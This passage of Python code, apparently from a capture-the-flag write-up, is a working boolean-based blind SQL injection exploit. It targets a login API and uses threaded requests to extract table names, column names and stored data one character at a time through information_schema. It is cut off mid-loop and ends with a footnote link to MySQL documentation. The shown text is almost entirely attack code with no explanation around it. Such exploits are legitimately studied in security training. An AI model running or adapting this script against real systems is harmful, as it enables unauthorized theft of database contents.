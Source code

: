 ```python
        if opt["debug"]: print("LENGTH CHECK", ROW, length, truth, token)
        return length, truth
    
    def boolean_sqli(arguments):

        idx, ascii_val, _context, which = arguments
        global ROW
        _context = _context.lower()
        if(_context == 'table'):
            #TABLE
            SQL_PAYLOAD = f"SELECT ORD(SUBSTRING(table_name, {idx}, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT {ROW}, 1"
        elif(_context == 'column'):
            # COLUMN
            ROW = 1
            SQL_PAYLOAD = f"SELECT ORD(SUBSTRING(column_name, {idx}, 1)) FROM information_schema.columns WHERE table_name='{which}' LIMIT {ROW}, 1"
        else:
            #DATA
            SQL_PAYLOAD = f"SELECT ORD(SUBSTRING({which}, {idx}, 1)) FROM flag LIMIT {ROW}, 1"
        
        [sess, token] = get_token()

        res = sess.post(f"{opt['url']}/api/login", data={"username": payload(f'SELECT CASE WHEN ({SQL_PAYLOAD})={ord(ascii_val)} THEN 1 ELSE 0 END'), "password":b64encode(b"nyxmare"), "token": token}, proxies=proxies)

        # If payload is true
        # Caught exception because of division by zero
        if '"success":true' in res.text:
            truth = 1
        else:
            truth = 0

        if opt["debug"]: print("DATA_CHECK", idx, ascii_val, ROW, truth, token)
        return ascii_val, truth
    
    result_rows = []

    # GET LENGTH
    found_length = 0
    MAX_LENGTH = 100
    for current_check in range(1, MAX_LENGTH, MAX_WORKERS):
        log.info(f"CHECK LENGTH {current_check} - {current_check+MAX_WORKERS}")
        with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
            responses = executor.map(get_length, [(length, _context, which) for length in range(current_check, current_check+MAX_WORKERS)])
        for length, truth in responses:
            if truth:
                found_length = 1
                log.info(f"LENGTH = {length}")
                break
            else:
                log.info(f"NOT {length}")

        if found_length:
            break

    DATA_LENGTH = length
    
    result = ""
    for idx in range(1, DATA_LENGTH+1):
        with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
```

[^1]: https://dev.mysql.com/doc/refman/8.0/en/comments.html